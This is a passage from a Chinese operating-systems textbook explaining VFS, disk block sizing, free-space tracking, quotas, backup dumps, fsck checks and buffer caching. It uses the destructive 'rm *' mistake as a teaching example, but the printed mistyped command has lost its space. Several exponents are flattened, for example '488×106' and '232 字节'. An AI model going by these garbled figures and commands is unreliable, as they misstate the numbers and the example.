为了理解VFS是如何工作的，让我们按时间的先后举一个例子。当系统启动时，根文件系统在VFS中注册。另外，当装载其他文件系统时，不管在启动时还是在操作过程中，它们也必须在VFS中注册。当一个文件系统注册时，它做的最基本的工作就是提供一个包含VFS所需要的函数地址的列表，可以是一个长的调用矢量（表），或者是许多这样的矢量（如果VFS需要），每个VFS对象一个。因此，只要一个文件系统在VFS注册，VFS就知道如何从它那里读一个块——它从文件系统提供的矢量中直接调用第4个（或者任何一个）功能。同样地，VFS也知道如何执行实际文件系统提供的每一个其他的功能：它只需调用某个功能，该功能所在的地址在文件系统注册时就提供了。
装载文件系统后就可以使用它了。比如，如果一个文件系统装载在/usr并且一个进程调用它：
open("/usr/include/unistd.h",O_RDONLY)
当解析路径时，VFS看到新的文件系统被装载在/usr，并且通过搜索已经装载文件的超块表来确定它的超块。做完这些，它可以找到它所装载的文件的根目录，在那里查找路径include/unistd.h。然后VFS创建一个v节点并调用实际文件系统，以返回所有的在文件i节点中的信息。这个信息被和其他信息一起复制到v节点中（在RAM中），而这些信息中最重要的是指向包含调用v节点操作的功能表的指针，比如read、write和close等。
当v节点被创建以后，VFS在文件描述符表中为调用进程创建一个入口，并且将它指向一个新的v节点（为了简单，文件描述符实际上指向另一个包含当前文件位置和指向v节点的指针的数据结构，但是这个细节对于我们这里的陈述并不重要）。最后，VFS向调用者返回文件描述符，所以调用者可以用它去读、写或者关闭文件。
随后，当进程用文件描述符进行一个读操作，VFS通过进程表和文件描述符表确定v节点的位置，并跟随指针指向功能表（所有这些都是被请求文件所在的实际文件系统中的地址）。这样就调用了处理read的功能，在实际文件系统中的代码运行并得到所请求的块。VFS并不知道数据是来源于本地硬盘，还是来源于网络中的远程文件系统、CD-ROM、USB存储棒或者其他介质。所有有关的数据结构在图4-19中展示。从调用者进程号和文件描述符开始，进而是v节点，读功能指针，然后是对实际文件系统的入口函数定位。
通过这种方法，加入新的文件系统变得相当直接。为了加入一个文件系统，设计者首先获得一个VFS期待的功能调用的列表，然后编写文件系统实现这些功能。或者，如果文件系统已经存在，它们必须提供VFS需要的包装功能，通常通过建造一个或者多个内在的指向实际文件系统的调用来实现。
要使文件系统工作是一件事，使真实世界中的文件系统有效、鲁棒地工作是另一回事。本节中，我们将考察有关管理磁盘的一些问题。
文件通常存放在磁盘上，所以对磁盘空间的管理是系统设计者要考虑的一个主要问题。存储n个字节的文件可以有两种策略：分配n个字节的连续磁盘空间，或者把文件分成很多个连续（或并不一定连续）的块。在存储管理系统中，分段处理和分页处理之间也要进行同样的权衡。
正如我们已经见到的，按连续字节序列存储文件有一个明显问题，当文件扩大时，有可能需要在磁盘上移动文件。内存中分段也有同样的问题。不同的是，相对于把文件从磁盘的一个位置移动到另一个位置，内存中段的移动操作要快得多。因此，几乎所有的文件系统都把文件分割成固定大小的块来存储，各块之间不一定相邻。
1.块大小
一旦决定把文件按固定大小的块来存储，就会出现一个问题：块的大小应该是多少？按照磁盘组织方式，扇区、磁道和柱面显然都可以作为分配单位（虽然它们都与设备相关，这是一种负面因素）。在分页系统中，页面大小也是主要讨论的问题之一。
拥有大的块尺寸意味着每个文件，甚至一个1字节的文件，都要占用一整个柱面，也就是说小的文件浪费了大量的磁盘空间。另一方面，小的块尺寸意味着大多数文件会跨越多个块，因此需要多次寻道与旋转延迟才能读出它们，从而降低了性能。因此，如果分配的单元太大，则浪费了空间；如果太小，则浪费时间。
做出一个好的决策需要知道有关文件大小分配的信息。Tanenbaum等人（2006）给出了1984年及2005年在一所大型研究型大学（VU）的计算机系以及一个政治网站（www.electoral-vote.com）的商业网络服务器上研究的文件大小分配数据。结果显示在图4-20，其中，对于每个2的幂文件大小，在3个数据集里每一数据集中的所有小于等于这个值的文件所占的百分比被列了出来。例如，在2005年，59.13%的VU的文件是4KB或更小，且90.84%的文件是64KB或更小，其文件大小的中间值是2475字节。一些人可能会因为这么小的尺寸而感到吃惊。
我们能从这些数据中得出什么结论呢？如果块大小是1KB，则只有30%～50%的文件能够放在一个块内，但如果块大小是4KB，这一比例将上升到60%～70%。那篇论文中的其他数据显示，如果块大小是4KB，则93%的磁盘块会被10%最大的文件使用。这意味着在每个小文件末尾浪费一些空间几乎不会有任何关系，因为磁盘被少量的大文件（视频）给占用了，并且小文件所占空间的总量根本就无关紧要，甚至将那90%最小的文件所占的空间翻一倍也不会引人注目。
另一方面，分配单位很小意味着每个文件由很多块组成，每读一块都有寻道和旋转延迟时间，所以，读取由很多小块组成的文件会非常慢。
举例说明，假设磁盘每道有1MB，其旋转时间为8.33ms，平均寻道时间为5ms。以毫秒（ms）为单位，读取一个k个字节的块所需要的时间是寻道时间、旋转延迟和传送时间之和：
5+4.165+(k/1 000 000)×8.33
图4-21的虚线表示一个磁盘的数据率与块大小之间的函数关系。要计算空间利用率，则要对文件的平均大小做出假设。为简单起见，假设所有文件都是4KB。尽管这个数据稍微大于在VU测量得到的数据，但是学生们大概应该有比公司数据中心更小的文件，所以这样整体上也许更好些。图4-21中的实线表示作为盘块大小函数的空间利用率。
可以按下面的方式理解这两条曲线。对一个块的访问时间完全由寻道时间和旋转延迟所决定，所以若要花费9ms的代价访问一个盘块，那么取的数据越多越好。因此，数据率随着磁盘块的增大而增大（直到传输花费很长的时间以至于传输时间成为主导因素）。
现在考虑空间利用率。对于4KB文件和1KB、2KB或4KB的磁盘块，分别使用4、2、1块的文件，没有浪费。对于8KB块以及4KB文件，空间利用率降至50%，而16KB块则降至25%。实际上，很少有文件的大小是磁盘块整数倍的，所以一个文件的最后一个磁盘块中总是有一些空间浪费。
然而，这些曲线显示出性能与空间利用率天生就是矛盾的。小的块会导致低的性能但是高的空间利用率。对于这些数据，不存在合理的折中方案。在两条曲线的相交处的大小大约是64KB，但是数据（传输）速率只有6.6MB/s并且空间利用率只有大约7%，两者都不是很好。从历史观点上来说，文件系统将大小设在1～4KB之间，但现在随着磁盘超过了1TB，还是将块的大小提升到64KB并且接受浪费的磁盘空间，这样也许更好。磁盘空间几乎不再会短缺了。
在考察Windows NT的文件使用情况是否与UNIX的文件使用情况存在微小差别的实验中，Vogels在康奈尔大学对文件进行了测量（Vogels，1999）。他观察到NT的文件使用情况比UNIX的文件使用情况复杂得多。他写道：
当我们在notepad文本编辑器中输入一些字符后，将内容保存到一个文件中将触发26个系统调用，包括3个失败的open企图、1个文件重写和4个打开和关闭序列。
尽管如此，他观察到了文件大小的中间值（以使用情况作为权重）：只读的为1KB，只写的为2.3KB，读写的文件为4.2KB。考虑到数据集测量技术以及年份上的差异，这些结果与VU的结果是相当吻合的。
2.记录空闲块
一旦选定了块大小，下一个问题就是怎样跟踪空闲块。有两种方法被广泛采用，如图4-22所示。第一种方法是采用磁盘块链表，每个块中包含尽可能多的空闲磁盘块号。对于1KB大小的块和32位的磁盘块号，空闲表中每个块包含有255个空闲块的块号（需要有一个位置存放指向下一个块的指针）。考虑500GB的磁盘，拥有488×106 个块。为了在255块中存放全部这些地址，需要190万个块。通常情况下，采用空闲块存放空闲表，这样存储器基本上是空的。
另一种空闲磁盘空间管理的方法是采用位图。n个块的磁盘需要n位位图。在位图中，空闲块用1表示，已分配块用0表示（或者反之）。对于500GB磁盘的例子，需要488×106 位表示，即需要60 000个1KB块存储。很明显，位图方法所需空间较少，因为每块只用一个二进制位标识，相反在链表方法中，每一块要用到32位。只有在磁盘快满时（即几乎没有空闲块时）链表方案需要的块才比位图少。
如果空闲块倾向于成为一个长的连续分块的话，则空闲列表系统可以改成记录分块而不是单个的块。一个8、16、32位的计数可以与每一个块相关联，来记录连续空闲块的数目。在最好的情况下，一个基本上空的磁盘可以用两个数表达：第一个空闲块的地址，以及空闲块的计数。另一方面，如果磁盘产生了很严重的碎片，记录分块会比记录单独的块效率要低，因为不仅要存储地址，而且还要存储计数。
这个情形说明了操作系统设计者经常遇到的一个问题。有许多数据结构与算法可以用来解决一个问题，但选择其中最好的则需要数据，而这些数据是设计者无法预先拥有的，只有在系统被部署完毕并被大量使用后才会获得。更有甚者，有些数据可能就是无法获取。例如，1984年与1995年我们在VU测量的文件大小、网站的数据以及在康奈尔大学的数据，是仅有的4个数据样本。尽管有总比什么都没有好，我们仍旧不清楚是否这些数据也可以代表家用计算机、公司计算机、政府计算机及其他。经过一些努力我们也许可以获取一些其他种类计算机的样本，但即使那样，（就凭这些数据来）推断那种测量适用于所有计算机也是愚蠢的。
现在回到空闲表方法，只需要在内存中保存一个指针块。当文件创建时，所需要的块从指针块中取出。现有的指针块用完时，从磁盘中读入一个新的指针块。类似地，当删除文件时，其磁盘块被释放，并添加到内存的指针块中。当这个块填满时，就把它写入磁盘。
在某些特定情形下，这个方法产生了不必要的磁盘I/O。考虑图4-23a中的情形，内存中的指针块只有两个表项了。如果释放了一个有三个磁盘块的文件，该指针块就溢出了，必须将其写入磁盘，这就产生了图4-23b的情形。如果现在写入含有三个块的文件，满的指针块不得不再次读入，这将回到图4-23a的情形。如果有三个块的文件只是作为临时文件被写入，当它被释放时，就需要另一个磁盘写操作，以便把满的指针块写回磁盘。总之，当指针块几乎为空时，一系列短期的临时文件就会引起大量的磁盘I/O。
一个可以避免过多磁盘I/O的替代策略是，拆分满了的指针块。这样，当释放三个块时，不再是从图4-23a变化到图4-23b，而是从图4-23a变化到图4-23c。现在，系统可以处理一系列临时文件，而不需进行任何磁盘I/O。如果内存中指针块满了，就写入磁盘，半满的指针块从磁盘中读入。这里的思想是：保持磁盘上的大多数指针块为满的状态（减少磁盘的使用），但是在内存中保留一个半满的指针块。这样，它可以既处理文件的创建又同时处理文件的删除操作，而不会为空闲表进行磁盘I/O。
对于位图，在内存中只保留一个块是有可能的，只有在该块满了或空了的情形下，才到磁盘上取另一块。这样处理的附加好处是，通过在位图的单一块上进行所有的分配操作，磁盘块会较为紧密地聚集在一起，从而减少了磁盘臂的移动。由于位图是一种固定大小的数据结构，所以如果内核是（部分）分页的，就可以把位图放在虚拟内存内，在需要时将位图的页面调入。
3.磁盘配额
为了防止人们贪心而占有太多的磁盘空间，多用户操作系统常常提供一种强制性磁盘配额机制。其思想是系统管理员分给每个用户拥有文件和块的最大数量，操作系统确保每个用户不超过分给他们的配额。下面将介绍一种典型的机制。
当用户打开一个文件时，系统找到文件属性和磁盘地址，并把它们送入内存中的打开文件表。其中一个属性告诉文件所有者是谁。任何有关该文件大小的增长都记到所有者的配额上。
第二张表包含了每个用户当前打开文件的配额记录，即使是其他人打开该文件也一样。这张表如图4-24所示，该表的内容是从被打开文件的所有者的磁盘配额文件中提取出来的。当所有文件关闭时，该记录被写回配额文件。
当在打开文件表中建立一新表项时，会产生一个指向所有者配额记录的指针，以便很容易找到不同的限制。每一次往文件中添加一块时，文件所有者所用数据块的总数也增加，引发对配额硬限制和软限制检查。可以超出软限制，但硬限制不可以超出。当已达到硬限制时，再往文件中添加内容将引发错误。同时，对文件数目也存在着类似的检查。
当用户试图登录时，系统核查配额文件，查看该用户文件数目或磁盘块数目是否超过软限制。如果超过了任一限制，则显示一个警告，保存的警告计数减1。如果该计数已为0，表示用户多次忽略该警告，因而将不允许该用户登录。要想再得到登录的许可，就必须与系统管理员协商。
这一方法具有一种性质，即只要用户在退出系统前消除所超过的部分，他们就可以在一次终端会话期间超过其软限制；但无论什么情况下都不能超过硬限制。
比起计算机的损坏，文件系统的破坏往往要糟糕得多。如果由于火灾、闪电电流或者一杯咖啡泼在键盘上而弄坏了计算机，确实让人伤透脑筋，而且又要花上一笔钱，但一般而言，更换非常方便。只要去计算机商店，便宜的个人计算机在短短一个小时之内就可以更换（当然，如果这发生在大学里面，则发出订单需3个委员会的同意，5个签字要花90天的时间）。
不管是硬件或软件的故障，如果计算机的文件系统被破坏了，恢复全部信息会是一件困难而又费时的工作，在很多情况下，是不可能的。对于那些丢失了程序、文档、客户文件、税收记录、数据库、市场计划或者其他数据的用户来说，这不啻为一次大的灾难。尽管文件系统无法防止设备和介质的物理损坏，但它至少应能保护信息。直接的办法是制作备份。但是备份并不如想象得那么简单。让我们开始考察。
许多人都认为不值得把时间和精力花在备份文件这件事上，直到某一天磁盘突然崩溃，他们才意识到事态的严重性。不过现在很多公司都意识到了数据的价值，常常把数据转到磁带上存储，并且每天至少做一次备份。现在磁带的容量大至几十甚至几百GB，而每个GB仅仅需要几美分。其实，做备份并不像人们说得那么烦琐，现在就让我们来看一下相关的要点。
做磁带备份主要是要处理好两个潜在问题中的一个：
1)从意外的灾难中恢复。
2)从错误的操作中恢复。
第一个问题主要是由磁盘破裂、火灾、洪水等自然灾害引起的。事实上这些情形并不多见，所以许多人也就不以为然。这些人往往也是以同样的原因忽略了自家的火灾保险。
第二个原因主要是用户意外地删除了原本还需要的文件。这种情况发生得很频繁，使得Windows的设计者们针对“删除”命令专门设计了特殊目录——“回收站”，也就是说，在人们删除文件的时候，文件本身并不真正从磁盘上消失，而是被放置到这个特殊目录下，待以后需要的时候可以还原回去。文件备份更主要是指这种情况，这就允许几天之前，甚至几个星期之前的文件都能从原来备份的磁带上还原。
为文件做备份既耗时间又费空间，所以需要做得又快又好，这一点很重要。基于上述考虑我们来看看下面的问题。首先，是要备份整个文件系统还是仅备份一部分呢？在许多安装配置中，可执行程序（二进制代码）放置在文件系统树的受限制部分，所以如果这些文件能直接从厂商提供的CD-ROM盘上重新安装的话，也就没有必要为它们做备份。此外，多数系统都有专门的临时文件目录，这个目录也不需要备份。在UNIX系统中，所有的特殊文件（也就是I/O设备）都放置在/dev目录下，对这个目录做备份不仅没有必要而且还十分危险——因为一旦进行备份的程序试图读取其中的文件，备份程序就会永久挂起。简而言之，合理的做法是只备份特定目录及其下的全部文件，而不是备份整个文件系统。
其次，对前一次备份以来没有更改过的文件再做备份是一种浪费，因而产生了增量转储的思想。最简单的增量转储形式就是周期性地（每周一次或每月一次）做全面的转储（备份），而每天只对当天更改的数据做备份。稍微好一点的做法只备份自最近一次转储以来更改过的文件。当然了，这种做法极大地缩减了转储时间，但操作起来却更复杂，因为最近的全面转储先要全部恢复，随后按逆序进行增量转储。为了方便，人们往往使用更复杂的增量转储模式。
第三，既然待转储的往往是海量数据，那么在将其写入磁带之前对文件进行压缩就很有必要。可是对许多压缩算法而言，备份磁带上的单个坏点就能破坏解压缩算法，并导致整个文件甚至整个磁带无法阅读。所以是否要对备份文件流进行压缩必须慎重考虑。
第四，对活动文件系统做备份是很难的。因为在转储过程中添加、删除或修改文件和目录可能会导致文件系统的不一致性。不过，既然转储一次需要几个小时，那么在晚上大部分时间让文件系统脱机是很有必要的，虽然这种做法有时会令人难以接受。正因如此，人们修改了转储算法，记下文件系统的瞬时状态，即复制关键的数据结构，然后需要把将来对文件和目录所做的修改复制到块中，而不是处处更新它们（Hutchinson等人，1999）。这样，文件系统在抓取快照的时候就被有效地冻结了，留待以后空闲时再备份。
第五，即最后一个问题，做备份会给一个单位引入许多非技术性问题。如果当系统管理员下楼去取打印文件，而毫无防备地把备份磁带搁置在办公室里的时候，就是世界上最棒的在线保安系统也会失去作用。这时，一个间谍所要做的只是潜入办公室、将一个小磁带放入口袋，然后绅士般地离开。再见吧保安系统。即使每天都做备份，如果碰上一场大火烧光了计算机和所有的备份磁带，那做备份又有什么意义呢？由于这个原因，所以备份磁带应该远离现场存放，不过这又带来了更多的安全风险（因为，现在必须保护两个地点了）。关于此问题和管理中的其他实际问题，请参考（Nemeth等人，2000）。接下来我们只讨论文件系统备份所涉及的技术问题。
转储磁盘到磁带上有两种方案：物理转储和逻辑转储。物理转储是从磁盘的第0块开始，将全部的磁盘块按序输出到磁带上，直到最后一块复制完毕。此程序很简单，可以确保万无一失，这是其他任何实用程序所不能比的。
不过有几点关于物理转储的评价还是值得一提的。首先，未使用的磁盘块无须备份。如果转储程序能够得到访问空闲块的数据结构，就可以避免该程序备份未使用的磁盘块。但是，既然磁带上的第k块并不代表磁盘上的第k块，那么要想略过未使用的磁盘块就需要在每个磁盘块前边写下该磁盘块的号码（或其他等效数据）。
第二个需要关注的是坏块的转储。制造大型磁盘而没有任何瑕疵几乎是不可能的，总是有一些坏块存在。有时进行低级格式化后，坏块会被检测出来，标记为坏的，并被应对这种紧急状况的在每个轨道末端的一些空闲块所替换。在很多情况下，磁盘控制器处理坏块的替换过程是透明的，甚至操作系统也不知道。
然而，有时格式化后块也会变坏，在这种情况下操作系统可以检测到它们。通常，可以通过建立一个包含所有坏块的“文件”来解决这个问题——只要确保它们不会出现在空闲块池中并且决不会被分配。不用说，这个文件是完全不能够读取的。
如果磁盘控制器将所有坏块重新映射，并对操作系统隐藏的话，物理转储工作还是能够顺利进行的。另一方面，如果这些坏块对操作系统可见并映射到在一个或几个坏块文件或者位图中，那么在转储过程中，物理转储程序绝对有必要能访问这些信息，并避免转储之，从而防止在对坏块文件备份时的无止境磁盘读错误发生。
物理转储的主要优点是简单、极为快速（基本上是以磁盘的速度运行）。主要缺点是，既不能跳过选定的目录，也无法增量转储，还不能满足恢复个人文件的请求。正因如此，绝大多数配置都使用逻辑转储。
逻辑转储从一个或几个指定的目录开始，递归地转储其自给定基准日期（例如，最近一次增量转储或全面系统转储的日期）后有所更改的全部文件和目录。所以，在逻辑转储中，转储磁带上会有一连串精心标识的目录和文件，这样就很容易满足恢复特定文件或目录的请求。
既然逻辑转储是最为普遍的形式，就让我们以图4-25为例来仔细研究一个通用算法。该算法在UNIX系统上广为使用。在图中可以看到一棵由目录（方框）和文件（圆圈）组成的文件树。被阴影覆盖的项目代表自基准日期以来修改过，因此需要转储，无阴影的则不需要转储。
该算法还转储通向修改过的文件或目录的路径上的所有目录（甚至包括未修改的目录），原因有二。其一是为了将这些转储的文件和目录恢复到另一台计算机的新文件系统中。这样，转储程序和恢复程序就可以在计算机之间进行文件系统的整体转移。
转储被修改文件之上的未修改目录的第二个原因是为了可以对单个文件进行增量恢复（很可能是对愚蠢操作所损坏文件的恢复）。设想如果星期天晚上转储了整个文件系统，星期一晚上又做了一次增量转储。在星期二，/usr/jhs/proj/nr3目录及其下的全部目录和文件被删除了。星期三一大早用户又想恢复/usr/jhs/proj/nr3/plans/summary文件。但因为没有设置，所以不可能单独恢复summary文件。必须首先恢复nr3和plans这两个目录。为了正确获取文件的所有者、模式、时间等各种信息，这些目录当然必须再次备份到转储磁带上，尽管自上次完整转储以来它们并没有修改过。
逻辑转储算法要维持一个以i节点号为索引的位图，每个i节点包含了几位。随着算法的执行，位图中的这些位会被设置或清除。算法的执行分为四个阶段。第一阶段从起始目录（本例中为根目录）开始检查其中的所有目录项。对每一个修改过的文件，该算法将在位图中标记其i节点。算法还标记并递归检查每一个目录（不管是否修改过）。
第一阶段结束时，所有修改过的文件和全部目录都在位图中标记了，如图4-26a所示（以阴影标记）。理论上说来，第二阶段再次递归地遍历目录树，并去掉目录树中任何不包含被修改过的文件或目录的目录上的标记。本阶段的执行结果如图4-26b所示。注意，i节点号为10、11、14、27、29和30的目录此时已经被去掉标记，因为它们所包含的内容没有做任何修改。它们因而也不会被转储。相反，i节点号为5和6的目录尽管没有被修改过也要被转储，因为到新的机器上恢复当日的修改时需要这些信息。为了提高算法效率，可以将这两阶段的目录树遍历合二为一。
现在哪些目录和文件必须被转储已经很明确了，就是图4-26b中所标记的部分。第三阶段算法将以节点号为序，扫描这些i节点并转储所有标记的目录，如图4-26c所示。为了进行恢复，每个被转储的目录都用目录的属性（所有者、时间等）作为前缀。最后，在第四阶段，在图4-26d中被标记的文件也被转储，同样，由其文件属性作为前缀。至此，转储结束。
从转储磁带上恢复文件系统很容易办到。首先要在磁盘上创建一个空的文件系统，然后恢复最近一次的完整转储。由于磁带上最先出现目录，所以首先恢复目录，给出文件系统的框架；然后恢复文件本身。在完整转储之后的是增量转储，重复这一过程，以此类推。
尽管逻辑转储十分简单，还是有几点棘手之处。首先，既然空闲块列表并不是一个文件，那么在所有被转储的文件恢复完毕之后，就需要从零开始重新构造。这一点可以办到，因为全部空闲块的集合恰好是包含在全部文件中的块集合的补集。
另一个问题是关于连接。如果一个文件被连接到两个或多个目录中，要注意在恢复时只对该文件恢复一次，然后要恢复所有指向该文件的目录。
还有一个问题就是：UNIX文件实际上包含了许多“空洞”。打开文件，写几个字节，然后找到文件中一个偏移了一定距离的地址，又写入更多的字节，这么做是合法的。但两者之间的这些块并不属于文件本身，从而也不应该在其上实施转储和恢复操作。核心文件通常在数据段和堆栈段之间有一个数百兆字节的空洞。如果处理不得当，每个被恢复的核心文件会以“0”填充这些区域，这可能导致该文件与虚拟地址空间一样大（例如，232 字节，更糟糕可能会达到264 字节）。
最后，无论属于哪一个目录（它们并不一定局限于/dev目录下），特殊文件、命名管道以及类似的文件都不应该转储。关于文件系统备份的更多信息，请参考（Chervenak等人，1998;Zwicky，1991）。
磁带密度不会像磁盘密度那样改进得那么快。这会逐渐导致备份一个很大的磁盘需要多个磁带的状况。当磁带机器人可以自动换磁带时，如果这种趋势继续下去，作为一种备份介质，磁带会最终变得太小。在那种情况下，备份一个磁盘的惟一的方式是在另一个磁盘上。对每一个磁盘直接做镜像是一种方式。一个更加复杂的方案，称为RAID，将会在第5章讨论。
影响文件系统可靠性的另一个问题是文件系统的一致性。很多文件系统读取磁盘块，进行修改后，再写回磁盘。如果在修改过的磁盘块全部写回之前系统崩溃，则文件系统有可能处于不一致状态。如果一些未被写回的块是i节点块、目录块或者是包含有空闲表的块时，这个问题尤为严重。
为了解决文件系统的不一致问题，很多计算机都带有一个实用程序以检验文件系统的一致性。例如，UNIX有fsck，而Windows用scandisk。系统启动时，特别是崩溃之后的重新启动，可以运行该实用程序。下面我们介绍在UNIX中这个fsck实用程序是怎样工作的。scandisk有所不同，因为它工作在另一种文件系统上，不过运用文件系统的内在冗余进行修复的一般原理仍然有效。所有文件系统检验程序可以独立地检验每个文件系统（磁盘分区）的一致性。
一致性检查分为两种：块的一致性检查和文件的一致性检查。在检查块的一致性时，程序构造两张表，每张表中为每个块设立一个计数器，都初始化为0。第一个表中的计数器跟踪该块在文件中的出现次数，第二个表中的计数器跟踪该块在空闲表中的出现次数。
接着检验程序使用原始设备读取全部的i节点，忽略文件的结构，只返回所有的磁盘块，从0开始。由i节点开始，可以建立相应文件中采用的全部块的块号表。每当读到一个块号时，该块在第一个表中的计数器加1。然后，该程序检查空闲表或位图，查找全部未使用的块。每当在空闲表中找到一个块时，就会使它在第二个表中的相应计数器加1。
如果文件系统一致，则每一块或者在第一个表计数器中为1，或者在第二个表计数器中为1，如图4-27a所示。但是当系统崩溃后，这两张表可能如图4-27b所示，其中，磁盘块2没有出现在任何一张表中，这称为块丢失。尽管块丢失不会造成实际的损害，但它的确浪费了磁盘空间，减少了磁盘容量。块丢失问题的解决很容易：文件系统检验程序把它们加到空闲表中即可。
有可能出现的另一种情况如图4-27c所示。其中，块4在空闲表中出现了2次（只在空闲表是真正意义上的一张表时，才会出现重复，在位图中，不会发生这类情况）。解决方法也很简单：只要重新建立空闲表即可。
最糟的情况是，在两个或多个文件中出现同一个数据块，如图4-27d中的块5。如果其中一个文件被删除，块5会添加到空闲表中，导致一个块同时处于使用和空闲两种状态。若删除这两个文件，那么在空闲表中这个磁盘块会出现两次。
文件系统检验程序可以采取相应的处理方法是，先分配一空闲块，把块5中的内容复制到空闲块中，然后把它插到其中一个文件之中。这样文件的内容未改变（虽然这些内容几乎可以肯定是不对的），但至少保持了文件系统的一致性。这一错误应该报告，由用户检查文件受损情况。
除检查每个磁盘块计数的正确性之外，文件系统检验程序还检查目录系统。此时也要用到一张计数器表，但这时是一个文件（而不是一个块）对应于一个计数器。程序从根目录开始检验，沿着目录树递归下降，检查文件系统中的每个目录。对每个目录中的每个文件，将文件使用计数器加1。要注意，由于存在硬连接，一个文件可能出现在两个或多个目录中。而遇到符号连接是不计数的，不会对目标文件的计数器加1。
在检验程序全部完成后，得到一张由i节点号索引的表，说明每个文件被多少个目录包含。然后，检验程序将这些数字与存储在文件i节点中的连接数目相比较。当文件创建时，这些计数器从1开始，随着每次对文件的一个（硬）连接的产生，对应计数器加1。如果文件系统一致，这两个计数应相等。但是，有可能出现两种错误，即i节点中的连接计数太大或者太小。
如果i节点的连接计数大于目录项个数，这时即使所有的文件都从目录中删除，这个计数仍是非0，i节点不会被删除。该错误并不严重，却因为存在不属于任何目录的文件而浪费了磁盘空间。为改正这一错误，可以把i节点中的连接计数设成正确值。
另一种错误则是潜在的灾难。如果同一个文件连接两个目录项，但其i节点连接计数只为1，如果删除了任何一个目录项，对应i节点连接计数变为0。当i节点计数为0时，文件系统标志该i节点为“未使用”，并释放其全部块。这会导致其中一个目录指向一未使用的i节点，而很有可能其块马上就被分配给其他文件。解决方法同样是把i节点中连接计数设为目录项的实际个数值。
由于效率上的考虑，以上的块检查和目录检查经常被集成到一起（即仅对i节点扫描一遍）。当然也有一些其他检查方法。例如，目录是有明确格式的，包含有i节点数目和ASCII文件名，如果某个目录的i节点编号大于磁盘中i节点的实际数目，说明这个目录被破坏了。
再有，每个i节点都有一个访问权限项。一些访问权限是合法的，但是很怪异，比如0007，它不允许文件所有者及所在用户组的成员进行访问，而其他的用户却可以读、写、执行此文件。在这类情况下，有必要报告系统已经设置了其他用户权限高于文件所有者权限这一情况。拥有1000多个目录项的目录也很可疑。为超级用户所拥有，但放在用户目录下，且设置了SETUID位的文件，可能也有安全问题，因为任何用户执行这类文件都需要超级用户的权限。可以列出一长串特殊的情况，尽管这些情况合法，但报告给用户却是有必要的。
以上讨论了防止因系统崩溃而破坏用户文件的问题，某一些文件系统也防止用户自身的误操作。如果用户想输入
rm *.o
删除全部以.o结尾的文件（编译器生成的目标文件），但不幸键入了
rm *.o
（注意，星号后面有一空格），则rm命令会删除全部当前目录中的文件，然后报告说找不到文件.o。在MS-DOS和一些其他系统中，文件的删除仅仅是在对应目录或i节点上设置某一位，表示文件被删除，并没有把磁盘块返回到空闲表中，直到确实需要时才这样做。所以，如果用户立即发现了操作错误，可以运行特定的一个“撤销删除”（即恢复）实用程序恢复被删除的文件。在Windows中，删除的文件被转移到回收站目录中（一个特别的目录），稍后若需要，可以从那里还原文件。当然，除非文件确实从回收站目录中删除，否则不会释放空间。
访问磁盘比访问内存慢得多。读内存中一个32位字大概要10ns。从硬盘上读的速度大约超过100MB/s，对32位字来说，大约要慢4倍，还要加上5～10ms寻道时间，并等待所需的扇面抵达磁头下。如果只需要一个字，内存访问则比磁盘访问快百万数量级。考虑到访问时间的这个差异，许多文件系统采用了各种优化措施以改善性能。本节我们将介绍其中三种方法。
1.高速缓存
最常用的减少磁盘访问次数技术是块高速缓存（block cache）或者缓冲区高速缓存（buffer cache）。在本书中，高速缓存指的是一系列的块，它们在逻辑上属于磁盘，但实际上基于性能的考虑被保存在内存中。
管理高速缓存有不同的算法，常用的算法是：检查全部的读请求，查看在高速缓存中是否有所需要的块。如果存在，可执行读操作而无须访问磁盘。如果该块不在高速缓存中，首先要把它读到高速缓存，再复制到所需地方。之后，对同一个块的请求都通过高速缓存完成。
高速缓存的操作如图4-28所示。由于在高速缓存中有许多块（通常有上千块），所以需要有某种方法快速确定所需要的块是否存在。常用方法是将设备和磁盘地址进行散列操作，然后，在散列表中查找结果。具有相同散列值的块在一个链表中连接在一起，这样就可以沿着冲突链查找其他块。
如果高速缓存已满，则需要调入新的块，因此，要把原来的某一块调出高速缓存（如果要调出的块在上次调入以后修改过，则要把它写回磁盘）。这种情况与分页非常相似，所有常用的页面置换算法在第3章中已经介绍，例如FIFO算法、第二次机会算法、LRU算法等，它们都适用于高速缓存。与分页相比，高速缓存的好处在于对高速缓存的引用不很频繁，所以按精确的LRU顺序在链表中记录全部的块是可行的。
在图4-28中可以看到，除了散列表中的冲突链之外，还有一个双向链表把所有的块按照使用时间的先后次序链接起来，近来使用最少的块在该链表的前端，而近来使用最多的块在该链表的后端。当引用某个块时，该块可以从双向链表中移走，并放置到该表的尾部去。用这种方法，可以维护一种准确的LRU顺序。
但是，这又带来了意想不到的难题。现在存在一种情形，使我们有可能获得精确的LRU，但是碰巧该LRU却又不符合要求。这个问题与前一节讨论的系统崩溃和文件一致性有关。如果一个关键块（比如i节点块）读进了高速缓存并做过修改，但是没有写回磁盘，这时，系统崩溃会导致文件系统的不一致。如果把i节点块放在LRU链的尾部，在它到达链首并写回磁盘前，有可能需要相当长的一段时间。
此外，某一些块，如i节点块，极少可能在短时间内被引用两次。基于这些考虑需要修改LRU方案，并应注意如下两点：
1)这一块是否不久后会再次使用？
2)这一块是否关系到文件系统的一致性？
考虑以上两个问题时，可将块分为i节点块、间接块、目录块、满数据块、部分数据块等几类。把有可能最近不再需要的块放在LRU链表的前部，而不是LRU链表的后端，于是它们所占用的缓冲区可以很快被重用。对很快就可能再次使用的块，比如正在写入的部分满数据块，可放在链表的尾部，这样它们能在高速缓存中保存较长的一段时间。
第二个问题独立于前一个问题。如果关系到文件系统一致性（除数据块之外，其他块基本上都是这样）的某块被修改，都应立即将该块写回磁盘，不管它是否被放在LRU链表尾部。将关键块快速写回磁盘，将大大减少在计算机崩溃后文件系统被破坏的可能性。用户的文件崩溃了，该用户会不高兴，但是如果整个文件系统都丢失了，那么这个用户会更生气。
尽管用这类方法可以保证文件系统一致性不受到破坏，但我们仍然不希望数据块在高速缓存中放很久之后才写入磁盘。设想某人正在用个人计算机编写一本书。尽管作者让编辑程序将正在编辑的文件定期写回磁盘，所有的内容只存在高速缓存中而不在磁盘上的可能性仍然非常大。如果这时系统崩溃，文件系统的结构并不会被破坏，但他一整天的工作就会丢失。
即使只发生几次这类情况，也会让人感到不愉快。系统采用两种方法解决这一问题。在UNIX系统中有一个系统调用sync，它强制性地把全部修改过的块立即写回磁盘。系统启动时，在后台运行一个通常名为update的程序，它在无限循环中不断执行sync调用，每两次调用之间休眠30s。于是，系统即使崩溃，也不会丢失超过30秒的工作。
